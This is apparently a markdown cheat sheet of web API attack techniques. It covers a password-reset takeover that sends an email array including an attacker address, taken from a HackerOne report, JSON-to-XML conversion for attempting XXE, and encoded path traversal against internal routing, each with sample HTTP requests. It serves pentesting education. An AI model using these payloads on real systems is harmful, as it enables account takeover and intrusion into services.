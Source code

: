 API
===

## Password reset
```
From: https://hackerone.com/reports/322985
The attacker was able to send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address.

POST https://hq.breadcrumb.com/api/v1/password_reset HTTP/1.1
with body like {"email_address":["admin@breadcrumb.com","attacker@evil.com"]}
```

## JSON to XML to XXE
When the API accept JSON type format payload, then you can try to send the same payload but as a XML file. You can download the Burp extension named "Content Type Converter".
> This extension helps you to modify the JSON request to XML, XML request to JSON and normal form request to JSON in order to play with request and responses.
> https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html

```
PUT /api/search HTTP/1.1
Host: test.com
...
Content-Type: application/json;charset=UTF-8

{
	"message": "xxx"
}
```

```
PUT /api/message HTTP/1.1
Host: test.com
...
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<message>xxx</message>
```

If the request is accepted by the API, then you can try to attack with an XXE payload.


## Exploit application routing

[@samwcyo](twitter.com/samwcyo) explains how to exploit some mis-configuration
on [web routing](https://docs.google.com/presentation/d/1N9Ygrpg0Z-1GFDhLMiG3jJV6B_yGqBk8tuRWO1ZicV8/edit).
That's mean a server may internally call an other resource based on the user URL.
The rewriting can be modify using techniques such as `Directory traversal` (`../`)
or add `Control characters` (%23 (#), %3f (?), %26 (&), %2e (.), %2f (/), %40 (@))
with double or triple encoding in the URL.


He shows some real examples where he can raise an exception on the internal
application using some encoding on control characters:

```
GET /files/lol.png%23 HTTP/1.1
GET /files/..%2f%23 HTTP/1.1
```
